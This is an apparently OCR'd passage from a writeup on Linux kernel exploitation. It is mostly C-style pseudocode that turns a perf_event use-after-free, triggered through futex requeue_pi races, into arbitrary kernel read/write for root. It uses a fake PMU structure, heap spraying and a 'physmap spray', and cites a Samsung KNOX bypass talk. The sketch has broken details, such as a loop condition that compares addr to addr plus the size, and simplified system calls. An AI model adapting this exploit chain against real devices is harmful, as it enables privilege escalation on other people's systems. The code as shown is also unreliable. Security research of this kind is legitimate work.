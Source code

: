 ```c=
  {
    addr = mmap((void*)start_addr, alloc_size);

    while ( addr < addr + alloc_size )
    {
      // Refer to struct `perf_event_context` in include/linux/perf_event.h.   
      *(unsigned long*)addr = pmu_addr;
      addr += 512LL;
    }
    mlock(addr, alloc_size);
    start_addr += alloc_size;
  }
}
void prepare()
{
    pmu_addr = mmap(pmu_address) // you mmap a memory range in user space.
    init_pmu(pmu_addr); // init the fake pmu 
    lift_spray();
}
void *thread_1_for_alloc()
{
    group_id = perf_event_open(pid, PERF_TYPE_SOFTWARE);
    sem_post(&sem);
    futex(FUTEX_WAIT_REQUEUE_PI); // wait for waking up.
    
    if (read_at_address_pipe(Kernel_space))	
			puts("Turn UAF bug to arbitrary read/write memory");
    /* While exploit execute here, representing you can read/write arbitrary memory.
     * it's convenient to get the root priv. just like `towelroot`.
     */
}
void *thread_for_free()
{
    perf_event_open(pid, PERF_TYPE_HARDWARE, group_id);
    sem_post(&sem);
    futex() // go to sleep.
}
int trigger()
{
    thread_create(thread_1_for_alloc);
    thread_create(thread_for_free);
    thread_create(thread_for_free);
    
    sem_wait(&sem);
    sem_wait(&sem);
    sem_wait(&sem);
    stop_lift_spray();
    
    phymaps_spray();
    
    futex(FUTEX_CMP_REQUEUE_PI); /* wake up thread_1_for_alloc */
}
void main()
{
    prepare();
    trigger();
}

```
## Reference
[1] Defeating Samsung KNOX with zero
privilege